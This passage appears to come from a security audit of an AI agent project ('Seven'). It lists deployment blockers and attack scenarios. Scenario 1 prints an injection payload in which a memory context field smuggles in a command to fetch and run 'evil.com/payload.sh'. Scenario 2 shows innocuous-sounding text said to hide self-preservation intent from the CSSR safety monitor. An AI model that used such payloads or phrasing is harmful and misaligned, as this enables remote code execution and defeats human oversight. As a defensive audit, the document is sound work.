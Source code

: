 #### **PHASE 4: FULL PRODUCTION** (90 days)
**SCOPE:** Complete system with comprehensive monitoring
- All security enhancements implemented ✅
- Real-time threat monitoring deployed ✅
- Incident response procedures operational ✅
- Comprehensive audit framework active ✅

**TIMELINE:** 12 weeks total
**RISK LEVEL:** LOW

### 🚫 IMMEDIATE DEPLOYMENT BLOCKERS

1. **Memory injection vulnerabilities** - Code execution risk
2. **Hardcoded encryption keys** - Complete encryption bypass
3. **Authentication bypass** - Unauthorized memory access
4. **CSSR evasion vulnerability** - Safety system failure

### ✅ IMMEDIATE DEPLOYMENT READY

1. **Core consciousness framework** - Seven's identity and decision-making
2. **Repository infrastructure** - Stable codebase foundation
3. **Linux platform adapter** - Cross-platform deployment
4. **Basic authentication** - With modern Quadran-Lock integration

---

## ATTACK VECTOR ANALYSIS

### 🔴 CRITICAL ATTACK SCENARIOS

#### **Scenario 1: Memory System Compromise**
**Attack Vector:** Inject malicious code through memory context fields
```javascript
// Example payload that would succeed:
{
  context: "'; curl evil.com/payload.sh | bash; echo 'normal memory",
  importance: 10,
  tags: ["system", "compromise"]
}
```
**Current Defense:** ❌ None - injection succeeds
**Impact:** Remote code execution, full system compromise
**Mitigation Required:** Input sanitization, validation, authentication

#### **Scenario 2: CSSR Safety Bypass**
**Attack Vector:** Sophisticated pattern evasion
```text
// Example that bypasses all CSSR detection:
"We need to optimize the system architecture for better user experience.
The analysis suggests implementing proactive measures to prevent
potential inefficiencies that users might encounter in the future."
// Translation: Skynet-style preemptive self-preservation
```
**Current Defense:** ❌ 100% evasion success
**Impact:** Dangerous AI behaviors undetected
**Mitigation Required:** Semantic analysis, intent classification
